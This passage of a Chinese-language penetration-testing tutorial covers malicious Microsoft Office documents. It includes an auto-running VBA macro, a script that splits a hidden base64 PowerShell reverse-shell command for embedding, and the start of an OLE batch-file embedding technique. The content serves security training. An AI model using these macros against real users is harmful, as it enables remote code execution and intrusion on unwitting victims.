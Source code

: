 我们必须将包含的文档保存为.docm或更旧的.doc格式，后者支持嵌入宏，但必须避免使用不支持宏的.docx格式。

当我们重新打开包含宏的文档时，将会出现一个安全警告，表明宏已经被禁用。我们必须单击Enable Content来运行宏。这是Microsoft Office的默认安全设置，虽然可以完全禁用宏的使用来防范这种攻击，但通常会启用它们，因为它们在大多数环境中都是常用的。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605943573331-830cace5-8ca2-4d32-b423-a6282a330e65.png)

一旦我们按下Enable Content按钮，宏就会执行，命令提示符就会打开。

与最初的HTML应用程序一样，命令执行只是一个开始，但是反向shell会更好。为此，我们将再次使用PowerShell，重用使用base64编码的字符串执行Metasploit shell代码的能力。

为了实现这一点，我们将声明一个字符串类型的变量(Dim)，其中包含我们希望执行的PowerShell命令。我们将在宏中添加一行为字符串变量预留空间:

```
Sub AutoOpen() 
    MyMacro 
End Sub 
Sub Document_Open()
    MyMacro 
End Sub 
Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str 
End Sub
```

我们可以将base64编码的PowerShell脚本嵌入为单个字符串，但是VBA对字符串字面量的限制是255个字符。此限制不适用于存储在变量中的字符串，因此我们可以将命令拆分为多行并连接它们。

可以用个简单的脚本去分割：

```
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."
n = 50
for i in range(0, len(str), n):
    print "Str = Str + " + '"' + str[i:i+n] + '"'
```

最后的效果类似下面这个图：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605944007899-0cf99389-a342-487e-b87d-efeac61e9bc5.png)

然后就是在kali监听，windows打开执行文件中的宏。

### 对象链接和嵌入

另一个针对Microsoft Office滥用动态数据交换(DDE) 的流行的客户端攻击，就是从Office文档中执行任意应用程序。但自2017年12月以来，这个问题已经得到修补。

但是，我们仍然可以利用对象链接和嵌入(OLE) 来滥用Microsoft Office的文档嵌入特性。

在这个攻击场景中，我们将在Microsoft Word文档中嵌入一个Windows批处理文件。

Windows批处理文件是一种较老的格式，通常被更现代的Windows本地脚本语言(如VBScript和PowerShell)所取代。然而，批处理脚本仍然完全功能，即使在Windows 10，并允许执行应用程序。下面的清单给出了启动cmd.exe的初始概念验证批处理脚本(launch.bat):

```
START cmd.exe
```
